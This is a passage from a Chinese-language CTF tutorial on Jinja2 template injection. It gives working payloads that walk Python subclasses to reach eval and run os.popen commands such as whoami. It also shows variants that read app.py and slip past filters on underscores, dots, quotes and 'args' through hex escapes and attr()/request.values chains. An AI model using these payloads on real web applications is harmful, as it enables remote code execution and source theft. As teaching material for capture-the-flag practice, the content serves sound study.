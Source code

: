 ```go

        if check(payload):



            password += c



            break



    print password
```

- `print`标记

我们上面之所以要dnslog外带数据以及使用盲注，是因为用`{%%}`会没有回显，这里的话可以使用`print`来做一个标记使得他有回显，比如`{%print config%}`，payload如下

```go
{%print ().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")%}
```

### payload进阶与拓展

这里我基于上面绕过黑名单各种方法的组合，对CTF中用到的一些方法和payload再做一个小的总结，不过其实一般来说，只要不是太偏太绕的题，上面的方法自行组合一下都够用了，下面只是作为一个拓展

#### 过滤`_`和`.`和`'`

这里顺便给一个不常见的方法，主要是找到`_frozen_importlib_external.FileLoader`的`get_data()`方法，第一个是参数0，第二个为要读取的文件名，payload如下

```go
{{().__class__.__bases__[0].__subclasses__()[222].get_data(0,"app.py")}}
```

使用十六进制绕过后，payload如下

```go
{{()["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[222]["get\x5Fdata"](0, "app\x2Epy")}}
```

#### 过滤`args`和`.`和`_`

之前某二月赛在y1ng师傅博客看到的一个payload，原理并不难，这里使用了`attr()`绕过点，`values`绕过`args`，payload如下

```go
{{()|attr(request['values']['x1'])|attr(request['values']['x2'])|attr(request['values']['x3'])()|attr(request['values']['x4'])(40)|attr(request['values']['x5'])|attr(request['values']['x6'])|attr(request['values']['x4'])(request['values']['x7'])|attr(request['values']['x4'])(request['values']['x8'])(request['values']['x9'])}}



 



post:x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('whoami').read()
```
